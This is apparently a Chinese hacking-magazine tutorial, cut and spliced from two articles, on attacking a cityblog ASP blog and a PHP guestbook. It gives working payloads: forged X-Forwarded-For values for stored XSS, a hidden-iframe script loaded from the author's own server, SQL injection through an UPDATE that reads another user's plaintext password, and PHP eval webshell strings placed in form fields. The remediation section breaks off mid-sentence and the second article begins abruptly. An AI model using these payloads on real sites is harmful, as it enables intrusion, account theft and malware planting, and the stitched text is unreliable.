

然后执行“修改相片”的操作，会弹出一个“操作成功”的提示窗口，不要急着关闭，先将 WinSOCK 中的 POST 数据提取出来，如下：

```

POST /cixi/UserManager/Photo_Update.asp HTTP/1.1
Accept: image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, application/vnd.ms-excel, application/msword, */*
Referer: http://127.0.0.1/cixi/UserManager/Photo_Update.Asp?ArticleID=385
Accept-Language: zh-cn
Content-Type: application/x-www-form-urlencoded
UA-CPU: x86
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.2; SV1; .NET CLR 1.1.4322)
Host: 127.0.0.1
Content-Length: 385
Connection: Keep-Alive
Cache-Control: no-cache
Cookie: ASPSESSIONIDCCRASSSC=HPEFAKKAIFPIEOMIPPBADEFH; ASPSESSIONIDCASASTTD=LCLPBMLACJOABLIHIKJHNENO; cityblog=User%5FPASS=522007225&User%5FID=108&User%5FName=jmdcw

log_Title=ceshi&id=387&ClassName=1111111%C4%AC%C8%CF%CF%E0%B2%E1&BlogClass=102&bl=&log_IsShow=0&size=&color=&message=%5Bimg%5D%2Fcixi%2FUserUpload%2FUser0%2F108%2F200722574304417.gif%5B%2Fimg%5D%0D%0A&photo=%2Fcixi%2FUserupload%2FUser0%2F108%2F200722574304417.gif&tag=%CF%E0%B2%E1%7C%D5%D5%C6%AC%C9%E3%D3%B0&update=true&iscopy=copy&PostBlog=Post&topicsubmit=%D0%DE%B4%C4%CF%E0%B2%E1
```

有了这些数据，就可以手动输入构造的 X-Forwarded-For 进行跨站了，为了方便测试，偶将以前的“POST 提交工具”进行了修改，加入了 X-Forwarded-For 项，如图 3。



将 WinSock 抓到的数据分别填入其中的项内，在 X-Forwarded-For 的项中填入：127.0.0.1', User_Name='我来了 <script>alert("刺猬来了")</script>'，然后点“测试”，查看一下返回的信息，如图 4，其中显示了“操作成功”字符。



是否真的成功了呢？打开“我的博客”，作者名字并没有改变，也没有弹出跨站窗口，难道错了？点击标题进入，如图 5，弹出了跨站窗口，并且作者的名字也改了，呵呵！成功！

虽然跨站成功，但不太理想，毕竟需要他人点击进入才能看到，能不能在打开“我的博客”首页时就实现跨站呢？

上面用的是 User_name，这次换一下 Whather 试试，将工具窗口内的 X-Forwarded-For 语句更改为：127.0.0.1', Whather='天气很好<script>alert("刺猬又来了")</script>'，再次打开“我的博客”首页，如图 6，这次一打开就弹出跨站窗口了，嘿嘿，再次成功。

下面我们再来挂个页面试试，这次换 Article_Form 出场，将



X-Forwarded-For 语句更改为：127.0.0.1', Whather='晴', Article_Form='谁拍的<iframe src=//www.baidu.com width=200 height=100></iframe>'，提交后却返回了如下错误信息：“字段太小而不能接受所要添加的数据的数量。试着插入或粘贴较少的数据”。查看数据库中字段的长度后才知道，这几个字符型字段的长度最大都是



50，不要紧，剑心写过 50 个字符内的跨站方法，这里简单说一下。先创建一个 1.js 文件，将欲加载的网页写在这个里面，内容如下（为了直观地看到效果，偶将其中的 width 和 height 均未设为零。）：

```
document.write("<iframe style='display:none;' src='http://www.baidu.com' width=200 height=100></iframe>")
```

将该文件保存到自己的某个空间内，然后将上面的 X-Forwarded-For 语句更改为：127.0.0.1', Whather='晴', Article_Form='谁拍的<script src=//jmdcw.*****.com/1.js></script>'，后面的跨站语句正好 50 个字节，如果所在网站名字过长，不妨将其放在 Whather 的提交值中。再次提交，这次返回了成功信息，再次打开“我的博客”，如图 7，挂马的效果实现了。





上面说了这么多，说的是在自己的博客上挂马，如何将挂马挂到别人的博客上呢？还记不记得我前面建的另一个用户“5200”，在首页的“最新注册”中找到“5200”用户，打开其首页，如图 8，空空的一个空间。





从其 URL（http://127.0.0.1/cixi/User0/109/）中，得到了他的 USER_ID 是 109，OK，回到我们的工具界面，将 X-Forwarded-For 语句更改为：127.0.0.1', user_id=109, User_name='5200，提交后刷新 5200 的首页，如图 9，嘿嘿，jmdcw 所发的日志已经跑到 5200 空间中来了。

但当打开这篇日志后，却看到有一条编辑信息，如图 10，哎呀，这下露馅了！怎么办？

其实只要在提交之前，将“提交内容”中的“update=true”项，改为“update=”，这样，就不会显示编辑信息了。所以在提交之前，一定要确认无误，否则，开弓没有回头箭，一旦将 ID 改为他人的，就再也没有权限更改了。

# 三、SQL 注入漏洞

常见注入漏洞都是 SELECT 语句方面，其实在 SQL 版中，只要条件允许，INSERT、UPDATE、DELETE 语句一样可以注入，下面就来试试 UPDATE 的注入利用。

打开本地 MSSQL 的“企业管理器”，新建一个数据库 cityblog，然后导入 MDB 版的数据库 #cityblog.mdb 到 SQL 数据库中，再调整几个字段的设置，最后将 Config.asp 中的 SQL 连接语句改为：`SqlConnectionString="DRIVER={SQL Server};SERVER=(local);UID=cityblog;PWD=jmdcw;DATABASE=cityblog;"`，OK，一切调试完毕，可以开始 SQL 版注入之行了！


和前面的步骤一样，先用 jmdcw 用户登陆，发一个相片，然后再用 WinSock 抓取修改时的数据，将这些数据填入偶的那个工具内，一切准备就绪，接下来就可以提交 X-Forwarded-For 语句来注入了。先来获取用户“5200”的密码，提交的 X-Forwarded-For 语句是：`127.0.0.1', Article_form=(select user_pass From[Tb_user]where user_name='5200'), whather='晴`


返回的信息是操作成功，打开 jmdcw 的博客，如图 11，5200 用户的密码已经显示出来了，还是明文，搞不懂 cityblog 的设计者为什么不对密码进行 MD5 加密呢？

如果要获取其他用户的密码，更改用户名就可以了，但每次都要去刷新首页，太麻烦，还是试试暴错的方法吧，将语句改为：`127.0.0.1' where user_name='jmdcw' and user>0--`

注意，在进行这样的语句时，一定在 where 后加入一个诸如“user_name='jmdcw'”之类的条件，这样，假使 AND 后面的条件成立了，所修改的也只是一个用户的数据，否则，就会把所有的数据全部更改了，这样的后果是很可怕的，切记！切记！查看工具中的返回信息，如图 12，暴出了当前数据库的用户名名称。

接下来，只要更改 and 后后的语句，就能够得到更多的信息，比如更改为 `@@version>0`，可以得到服务器系统及数据库版本信息，改为 `(select db_name(0))=1` 得到当前数据库名，将其中的 0 改为其它数值，就可以得到其它数据库名称。不过，这样的猜解也是很枯燥的，有没有快捷一些的方法呢？想起了前段时间写的数据转发脚本，这个也是提交数据，是不是可以用它来转发呢？分析完所要提交的数据，写出了一个针对 X-Forwarded-For 转发数据的 ASP 脚本，为了方便测试，我又抽出一点时间编了一个小程序“数据注入中转生成器”，如图 13，其中的“代理注入”所生成的文件就是转发 X-Forwarded-For 数据的 ASP 脚本。

程序中“注入键名 user_name='用户名'”内的用户名是当前用户的名称，“注入 URL 地址”是数据包内


HOST 和 POST 的集合。来源页、COOKIE 和 POST 提交值按数据包中的内容复制过来即可。为防止出错，偶重新用 WinSock 抓了一次“修改相册”的数据，然后将抓到的数据分别填入“数据注入中转生成器”里，点击“生成 ASP”，就在程序所在目录中生成了一个“jmHttp.asp”文件，只要把该文件放在本地的 IIS 内或是网络中的某个空间内，就可以转发注入工具所提交的数据了。

为了方便测试，偶将“jmHttp.asp”放在了本地的 IIS 根目录中，所以在“HDSI”的“注射地址”内填入的就是：`http://127.0.0.1/jmhttp.asp?jmdcw=a`，注意，URL 中最后的字符 a 是用来和脚本中的代码进行匹配的，不能缺少。点击“开始”后，很快就得到了结果，如图 14，暴出了数据库的相关信息，接下来就可以猜解表名或获取其他信息了，使用数据转发，方便多了（哈哈，广告时间）。


如果在用工具检测时没有发现注入点，可在 URL 中输入：`http://127.0.0.1/jmhttp.asp?jmdcw=a' and user>0 and ''='` 进行测试，如果出现的界面和图 15 不一致，那就有几种可能。


一则可能是在登陆时没有勾选“下次不必登入”，所抓到的 Cookie 数据已经失效；二则可能是在“数据注入中转生成器”中填写错误，少复制或输错了个别字符；三则可能数据库是 MDB 版，不存在注入点；四则可能是……

# 四、查缺补漏

说完了漏洞，下面就该说修补方法了，通过前面的一系列介绍，大家也可以看出，之所以出现跨站和注入漏洞，并不是因为采用了 X-Forwarded-For 的原因，而是因为没有对代理 IP 进行单引号过滤。OK，原因找到了，修补也就简单了，将 UserManagerClass.asp 文件中的“`IP = Request.ServerVariables("HTTP_X_FORWARDED_FOR")`”更改为：“`IP = Replace`”## 留言留出 shell 来

Flyh4t[东南大学]

- 从本文你可以学到：
1. 挖掘 php+txt 类型的漏洞技巧
2. 基于新易留言本的漏洞分析和利用

php+txt 类型的留言本简洁快速，而且大多是不用安装配置就可以直接使用的，这个特点迎合了广大懒虫的喜好，所以使用率是很高的。但是很多此类系统都是漏洞多多（嘿嘿，据说很多美化修改版作者都会自己留个后门），所谓“千里之堤，溃于蚁穴”，如果不细心看看代码，说不定某一天你的首页就因为这个小东东被涂成了“xxx 到此一游”。

下面偶就来分析一下新易留言本中多个可写 webshell 的漏洞，顺便探讨下 php+txt 系统漏洞的主要类型。当然，偶的目的仅限于分析代码，所做测试只是印证漏洞的真实存在。鉴于偶才学 php 不到一个月（编辑：小样，才学了点东西就来这里忽悠，要是误导了广大人民群众，我就打你 pp），有错误一定请不吝指出，我先谢各位牛人了。

> 引用下新易开发者的原话：“该留言本是由著名的 PHP 文本留言本‘伊风留言本’修改美化而来，由于本系统感觉相当的好，用的人非常多，就修改了一下，正好无聊，然后就把它美化了一下，呵\~\~\~确实是很美观，但漏洞是免不了的，嘎嘎。我要申明一下，下面的漏洞都是在 magic_quotes_gpc=ON 下测试通过的，也就是说不受 magic_quotes_gpc 的影响。

# 漏洞一：变量过滤不严

.index.php 中 $name, $topic, $email, $home 等多个变量过滤不严导致通过留言可直接得到 webshell，看留言部分的代码：

```php
if($action==add){
……//省略几行垃圾代码
$name=trim($name);
$topic=trim($topic);
$content=trim($content);
$oicq=trim($oicq);
$email=trim($email);
$home=trim($home);
$ip=getip();
$ipdata=@$IWFile->readfromfile("data/ip.php");
if(strstr($ipdata,"|$ip|")!=""){goback("-1","对不起，管理员已禁止你这个 ip 地址的发言");exit;}
if($name==""){goback("-1","留言人名不能为空");exit;}
//注意，这里 $name 只要不为空就通过检查在下文写入文件
if($topic==""){goback("-1","留言主题不能为空");exit;}
//一样，不为空就可以通过检查在下文写入文件
if($content==""){goback("-1","留言内容不能为空");exit;}
if($sex==""){$sex="nosex";}
if($sort==""){$sort=mt_rand(1,39);}
if(!ereg("^[1-9][0-9]{4,8}$",$oicq)&&$oicq!=""){goback("-1","oicq 不合法，请修改");exit;}
if(!ereg("^(.+)@(.+)\.(.+)$",$email)&&$email!=""&&$email!="@"){goback("-1","email 不合法，请返回修改");exit;}
//这里也比较有意思，只要 email 为 xx@yy.zz 这样形式的就可以通过了
if(!ereg("http:\/\/(.+)$",$home)&&$home!="http://")
```

```php
{goback("-1","个人主页地址不合法");exit;}
//同上,只要是 http://xx.xx 这样形式的就 ok
/* ok,add other items */
$date=date("Y-m-d H",time(0));
$content=ubb($content);
$content=str_replace("|%","|", "",$content);
if($oicq==""){$oicq="没有填写";}
if($home=="http://"){$home="http://siny.ahut.edu.cn";}
if($email==""){$email="sinydesign@126.com";}
$IWFile->writetofile("data/gb.php", "$name|%|$topic|%|$sex|%|$sort|%|$oicq|%|$home|%|$email|%|$date|%|$ip|%|$content\n","a+");
//faint,程序高兴的写入文件咯,实在是无语
```

## 利用方法：

- 1) 在主题处提交 `<?php eval($_POST[cmd]); ?>`
- 2) 在 E-mail 提交 `<?php eval($_POST[cmd]); ?>@126.com`
- 3) 在主页处提交 `http://<?php eval($_POST[cmd]); ?>.com`

以上任何一个办法都可以得到 webshell 的，后门地址都是 `data/gb.php`。需要注意的是，在提交表单中对 name 变量有 `maxLength=10` 这样的限制，写入一个最小马貌似都不够了。要是你对 name 有特别的爱好且非要利用这个变量的话，我也没话说，你可以把表单另存到本地，修改下这个值的长度就可以了。

## 漏洞二：getip()函数过滤不严，可以伪造 ip 写入 webshell

这个类型的漏洞我本来不想写的，已经流行好久了，但是既然看到了，还是记录一笔吧，看 functions.php 中的代码，大约在 48 行开始：

```php
